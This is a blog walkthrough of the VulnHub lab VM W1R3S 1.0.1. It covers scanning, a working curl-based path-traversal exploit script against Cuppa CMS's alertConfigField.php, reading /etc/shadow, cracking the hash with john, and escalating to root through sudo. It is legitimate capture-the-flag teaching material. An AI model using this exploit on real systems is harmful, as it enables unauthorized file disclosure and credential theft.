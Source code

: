 ```yaml
---
layout: post
modifed: 2018-06-07 17:03:45 +0000
title: "W1R3S: 1.0.1 Walkthrough"
category: Walkthrough
tags: [VulnHub, W1R3S]
comments: true
image:
  feature: w1r3s-1.0.1-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/halloween-ghosts-happy-halloween-1746354/
---
```


This post documents the complete walkthrough of W1R3S: 1.0.1, a boot2root [VM][1] created by SpecterWires, and hosted at [VulnHub][2]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Someone hires you to do a penetration test on the W1R3S.inc individual server and report all findings. They ask you to gain `root` access and find the flag (located in `/root` directory).

### Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.100.130
...
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 11:21 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 11:25 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28 16:53 new-employees
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|_  256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
```

As usual, let's go with directory/file enumeration on the web service and see what we get.

### Directory/File Enumeration

I like to use `gobuster` with one of the big directory wordlists.

```
Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.100.130/
[+] Threads      : 10
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded     : true
=====================================================
http://192.168.100.130/administrator (Status: 301)
http://192.168.100.130/javascript (Status: 301)
http://192.168.100.130/wordpress (Status: 301)
=====================================================
```

OK. We find two interesting directories: `administrator` and `wordpress`.

### Cuppa CMS

The `administrator` directory turns out to be the installation setup for Cuppa CMS. This is how it looks like when I point the browser to `/administrator`.

![screenshot-1](/assets/images/posts/w1r3s-walkthrough/screenshot-1.png)

According to the official [documentation](https://www.cuppacms.com/en/docs/installation), in order for the installation to complete, it will have to create the database first.

>Remember, the database should be created before to install Cuppa CMS.

The Cuppa CMS installation was never completed in the first place or I'll not be seeing the setup page. I downloaded a [copy](http://cuppacms.com/files/cuppa_cms.zip) of the Cuppa CMS code to see if I can discover any vulnerabilities.

I'm not sure if this is a new vulnerability but it's a pleasant surprise to find an LFI vulnerability in `alertConfigField.php` at line 77.

![screenshot-2](/assets/images/posts/w1r3s-walkthrough/screenshot-2.png)

To test it, I wrote `cat.sh`, a simple script that will display any file as long as there's permission to do so.

{% highlight bash linenos %}
#!/bin/bash

_HOST=192.168.100.130
_PATH=administrator/alerts/alertConfigField.php
_PARM=urlConfig
_TRAV=../../../../../../../..

curl -s --data-urlencode "${_PARM}=${_TRAV}$1" $_HOST/$_PATH \
| sed -r 's/^ {8}//' \
| sed '71,$!d' \
| sed '$d' \
| sed '$d'
{% endhighlight %}

Let's give it a shot and see what we get.

```
# ./cat.sh /etc/passwd
...
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:122:129:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:123:130:MySQL Server,,,:/nonexistent:/bin/false
```
Imagine my surprise when I request for `/etc/shadow` and it shows up in the output.

```
# ./cat.sh /etc/shadow
...
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
sshd:*:17554:0:99999:7:::
ftp:*:17554:0:99999:7:::
mysql:!:17554:0:99999:7:::
```

I'm not sure if `/etc/shadow` is intentionally made world-readable; it should not be the case.

### John the Ripper

With both `passwd` and `shadow` available, I can `unshadow` them, and send them to `john` for offline cracking with a wordlist like "rockyou".

The cracking completes in seconds.

```
# john --format=crypt --show hashes.txt
w1r3s:computer:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
```

I can now log in to the box via SSH with the cracked password.

![screenshot-3](/assets/images/posts/w1r3s-walkthrough/screenshot-3.png)

### Privilege Escalation

It isn't long before I see that `w1r3s` is on the `sudoers` list.

![screenshot-4](/assets/images/posts/w1r3s-walkthrough/screenshot-4.png)

Becoming `root` is another command away.

![screenshot-5](/assets/images/posts/w1r3s-walkthrough/screenshot-5.png)

:dancer:

### Afterthought

To be honest, I didn't even bother with WordPress. :stuck_out_tongue_winking_eye:

[1]: https://www.vulnhub.com/entry/w1r3s-101,220/
[2]: https://www.vulnhub.com

*[LFI]: Local File Inclusion
